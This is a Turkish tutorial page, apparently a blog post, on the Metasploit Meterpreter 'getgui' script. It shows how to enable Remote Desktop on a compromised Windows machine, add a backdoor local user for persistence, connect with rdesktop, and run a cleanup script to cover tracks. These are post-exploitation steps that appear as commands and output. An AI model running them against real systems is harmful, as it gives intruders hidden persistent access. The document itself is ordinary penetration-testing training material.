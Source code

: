 ```yaml
---
draft: false
title: MSF Remote Desktop Modülü
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için getgui komutu oldukça kullanışlıdır.
url: /tr/msf-remote-desktop-modulu/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translation_key: msfremotedesktop
weight: 1
---
```



Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için `getgui` komutu oldukça kullanışlıdır.

Bu yazımızda `getgui` komutunu kullanarak sistemde bir kullanıcı oluşturup ardından `rdesktop` komutu ile bu bilgisayara nasıl bağlanabileceğimizi göreceğiz.

## Uzak Masaüstü Bağlantısı

Hedef bilgisayarda Meterpreter shell açtığınızı varsayıyoruz. Şimdi işe `getgui` komutunu kullanarak görsel bağlantı sağlamak için gerekli olan kullanıcı adı ve parolaya ihtiyacımız var. Böyle bir kullanıcı adı ve parolası oluşturduğunuzda kalıcılık sağlamış olursunuz.

Öncelikle `getgui` yardım başlıklarına bakalım.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Kullanıcı Ekleme

Genel olarak kullanımda `-u` kullanıcı adını, `-p` parolayı belirtmek için kullanılır. `getgui` komutunu aşağıdaki örneğe benzer şekilde kullandığınızda sisteme yeni bir kullanıcı eklemiş olursunuz.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Uzak Masaüstü Bağlantısı

Artık kullanıcı oluşturuldu. Aynı ağda bulunan başka bir bilgisayardan, bu kullanıcı adı ve parolayı kullanarak uzak masaüstü bağlantısı yapabilirsiniz.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Temizleme

Hedef sistemde ne kadar çok oynama yaparsanız, log kayıtlarına kaydedilme ihtimaliniz de o kadar artar. Bu sebeple mümkün olduğunca yetkisiz işlem yapmamalı veya gereken yerlere müdahale etmekle yetinmelisiniz.

`getgui` ile oluşturduğunuz kullanıcı ve oturum bilgilerini log kayıtların temizlemek isteyebilirsiniz. Bunun için aşağıdaki komut örneği işinize yarayacaktır. Örnekte kullanılan `/root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc` dosyasının en güncel halini yine aynı klasör içinden kontrol edebilirsiniz.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```
